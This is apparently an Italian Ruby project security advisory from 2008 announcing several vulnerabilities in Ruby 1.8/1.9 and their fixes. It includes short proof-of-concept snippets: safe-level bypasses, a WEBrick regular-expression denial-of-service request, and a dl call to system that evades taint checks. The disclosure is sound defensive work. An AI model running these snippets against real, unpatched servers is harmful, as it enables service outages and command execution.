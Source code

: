 ```yaml
---
layout: news_post
title: "Multiple vulnerabilità in Ruby"
author: "Fabio Cevasco"
lang: it
---
```


 Multiple vulnerabilità sono state scoperte in Ruby. Si raccomanda di eseguire un aggiornamento alle ultime versioni. ## 

Le seguenti vulnerabilità sono state scoperte.

### 

Molteplici vulnerabilità nel \_safe level\_ sono state scoperte:

* untrace\_var è permesso in safe level 4.
  
      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }
      
      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME può essere moficato in safe level 4.
  
      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join
      
      $PROGRAM_NAME #=> "Hello, World!"

* Metodi non sicuri possono essere chiamati in safe level 1-3.
  
      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # ritorna la dimensione sbagliata
           end
           msg
         end.value
       end
      end
      
      $SAFE = 1 # o 2, o 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # Stampa una stringa la cui lunghezza è inferiore a 20
      end

* Syslog operations are permitted at safe level 4.
  
      require "syslog"
      
      Syslog.open
      
      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

Queste vulnerabilità sono state notificate da Keita Yamaguchi.

### 

WEBrick::HTTP::DefaultFileHandler è soggetto a richieste che occupano
tempi esponenziali dovute a un\'espressione regolare retroattiva in
WEBrick::HTTPUtils.split\_header\_value.

Server vulnerabile:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

&amp;Egrave; possibile che questa richiesta abbia bisogno di un tempo
infinito.

Questa vulnerabilità è stata notificata da Christian Neukirchen.

### 

dl non controlla la \_taintness\_, e questo potrebbe permettere la
chiamata di funzioni pericolose.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

Questa vulnerabilità è stata notificata da sheepman.

### 

resolv.rb permette ad utenti remoti di mascherare le risposte del DNS.
Questo rischio può essere ridotto randomizzando le ID di transazione e
le porte sorgenti, così resolv.rb è stato corretto per fare proprio
questo.

* vedi anche: [CVE-2008-1447][1]

Questa vulnerabilità è stata notificata da Tanaka Akira.

## 


: * 1\.8.5 e precedenti
  * 1\.8.6-p286 e precedenti
  * 1\.8.7-p71 e precedenti


: * r18423 e precedenti

## 


: Eseguire l\'agggiornamento a 1.8.6-p287 o 1.8.7-p72.
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]



: Eseguire un checkout dell\'ultima versione tramite Subversion.
  
      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Nota che un pacchetto che corregge questa vulnerabilità potrebbe essere
già disponibile attraverso il tuo software di package management.

## 

Un sincero ringraziamento a Keita Yamaguchi, Christian Neukirchen,
sheepman, e Tanaka Akira per aver notificato questi problemi al Ruby
Security Team.

## 

* 2008-08-08 12:21 +09:00 Corretto il numero di revisione di Ruby 1.9.
* 2008-08-11 11:23 +09:00 Corretto il patchlevel di Ruby 1.8. vedi
  [L\'annuncio del rilascio di Ruby 1.8.7-p72 and 1.8.6-p287][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz 
[4]: http://www.ruby-lang.org/it/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/ 
